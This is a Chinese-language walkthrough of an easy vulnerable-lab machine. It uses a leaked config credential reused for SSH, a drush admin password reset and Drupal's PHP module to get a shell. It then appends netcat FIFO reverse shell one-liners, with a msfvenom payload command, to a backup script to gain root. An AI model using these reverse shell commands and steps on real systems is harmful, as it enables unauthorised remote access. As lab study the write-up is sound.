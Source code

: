 
## 靶机信息
级别:容易

## Recon
### nmap

```shell
sudo arp-scan -l
//IP:192.168.1.163

sudo nmap --min-rate 10000 -p- -sT 192.168.1.163
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

sudo nmap -sT -sC -sV -O -p 22,80 192.168.1.163 -oA tcp_scan/details

```

## Web



![[Pasted image 20231021013332.png]]
![[Pasted image 20231021015417.png]]

```google
@DC7USER
https://github.com/Dc7User/staffdb/blob/master/config.php

```

![[Pasted image 20231021015354.png]]
```shell
dc7user
MdR3xOgB7#dW //看到这个凭证是数据库的凭证，但是端口扫描结果并没有数据库服务，尝试使用这个凭据登录SSH
```

## 提权

![[Pasted image 20231021020603.png]]


```shell
drush sql-dump --result-file=/home/dc7user/backups/website.sql

/var/www/html
drush user-password --password='passwd'

//此时可以在网页使用admin passwd登录后台
```

```shell
install new module 

https://www.drupal.org/project/php

```

安装php
![[Pasted image 20231021143902.png]]
```shell
//新建一个页面Text format选择 PHP code 将反弹shell内容复制进去，点击preview即可
```
![[Pasted image 20231021160858.png]]
此时已经得到了www-data用户的shell，将反弹shell输入到backup.sh中即可

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.136 1234 >/tmp/f" >> backups.sh

1. - `rm /tmp/f`：这会尝试删除 `/tmp/f` 文件，如果它存在的话。`rm`是删除文件的命令。
        
    - `mkfifo /tmp/f`：这会创建一个具有FIFO（First-In, First-Out）特性的文件 `/tmp/f`。FIFO是一种特殊类型的文件，用于进程之间的通信，通常用于管道。
        
    - `cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.136 1234 >/tmp/f`：这是一系列管道操作，它们的目的是在远程服务器 `192.168.1.136` 上建立一个反向Shell连接。它执行以下操作：
        
        - `cat /tmp/f`：这会将 `/tmp/f` 中的内容输出到标准输出。
        - `/bin/sh -i 2>&1`：这将启动一个交互式的Shell进程（`/bin/sh`）并将其标准输入和标准错误重定向到管道，以便通过网络传输。
        - `nc 192.168.1.136 1234`：这会使用`nc`命令（netcat）将Shell连接到IP地址 `192.168.1.136` 上的端口 `1234`，这实际上会建立一个远程Shell连接。
        - `>/tmp/f`：这将将来自Shell连接的输出写回 `/tmp/f` 文件。
2. `>> backups.sh`：这将把上述命令追加到名为 `backups.sh` 的文件中，如果该文件不存在，它将被创建。


msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.136 lport=1234 R
mkfifo /tmp/tshpi; nc 192.168.1.136 1234 0</tmp/tshpi | /bin/sh >/tmp/tshpi 2>&1; rm /tmp/tshpi

echo 'mkfifo /tmp/tshpi; nc 192.168.1.136 1234 0</tmp/tshpi | /bin/sh >/tmp/tshpi 2>&1; rm /tmp/tshpi' >> backups.sh

```

![[Pasted image 20231021165008.png]]


